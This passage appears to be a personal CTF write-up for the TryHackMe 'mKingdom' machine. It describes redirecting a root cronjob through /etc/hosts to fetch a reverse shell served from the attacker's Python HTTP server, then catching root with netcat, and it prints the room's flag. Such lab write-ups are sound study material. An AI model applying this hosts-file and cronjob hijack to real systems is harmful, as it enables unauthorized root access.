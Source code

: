 We can write etc/hosts, during enumeration in the machine we can see also there's a cronjob hitting on the website, we can modify it and get a root [[Shell]], first we modify the /etc/host file :

![[Pasted image 20250724164322.png]]

Now it's hitting on our [[IP address]] .

We have to replicate the path that it was hitting previously, put a [[Shell]] in there, host it and wait :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ ls   
linpeas.sh  php-reverse-shell.php

┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ mkdir app                      

┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ cd app                         

┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/mKingdom/app]
└─$ mkdir castle

┌──(hax㉿HaxonKali)-[~/…/CHALLENGES/Easy/mKingdom/app]
└─$ cd castle 

┌──(hax㉿HaxonKali)-[~/…/Easy/mKingdom/app/castle]
└─$ mkdir application

┌──(hax㉿HaxonKali)-[~/…/Easy/mKingdom/app/castle]
└─$ cd application 

```
## Reverse Shell

We can create a [[Payload]] for the [[Reverse Shell]] with Hacktricks extensions on firefox :

![[Pasted image 20250724165329.png]]

Now we create the file and copy this into the file with [[Nano]], then host it with a simple [[Python]] [[Server]] :

```
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/mKingdom]
└─$ python3 -m http.server 85
Serving HTTP on 0.0.0.0 port 85 (http://0.0.0.0:85/) ...

```

Note that we have used the same port as the requested path, and the same name of the cronjob file .

We open a listener on the same port with [[Netcat]] and wait for root shell :

```
root@mkingdom:/tmp# cat root.txt
cat root.txt
thm{e8b2f52d88b9930503cc16ef48775df0}
```

Copy it to the /tmp cause we can't read it in root home .    Pwned .